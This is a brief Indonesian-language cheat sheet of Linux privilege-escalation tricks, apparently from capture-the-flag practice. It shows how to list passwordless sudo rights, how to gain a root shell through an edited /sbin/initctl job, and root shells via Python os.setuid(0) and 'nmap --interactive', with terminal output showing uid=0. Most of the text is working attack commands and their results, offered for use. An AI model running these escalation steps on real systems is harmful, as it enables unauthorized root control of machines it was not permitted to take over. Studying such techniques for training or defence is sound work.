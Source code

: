 # SUDO

buat cek mana yang bisa sudo tanpa password pake ini:

    sudo -l 

contoh output:

    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole

# /sbin/initctl

Privesc via /sbin/initctl

edit file `/etc/init/test.conf`
tambahin di dalem script
jalanin perintah: sudo /sbin/initctl start test
kalo dah jalan bakal begini: test start/running, process 11746

sekarang tinggal akses bash begini: bash -p

# python setuid

    nathan@cap:/var/www/html$ python3
    Python 3.8.5 (default, Jan 27 2021, 15:41:15) 
    [GCC 9.3.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>> import os
    >>> 
    >>> os.setuid(0)
    >>> os.system('id')
    uid=0(root) gid=1001(nathan) groups=1001(nathan)
    0
    >>> 
    >>> os.system('/bin/bash')

# nmap suid 

    bash-3.2$ sudo nmap --interactive
    sudo nmap --interactive

    Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
    Welcome to Interactive Mode -- press h <enter> for help
    nmap> !sh
    !sh
    sh-3.2# id
    id
    uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
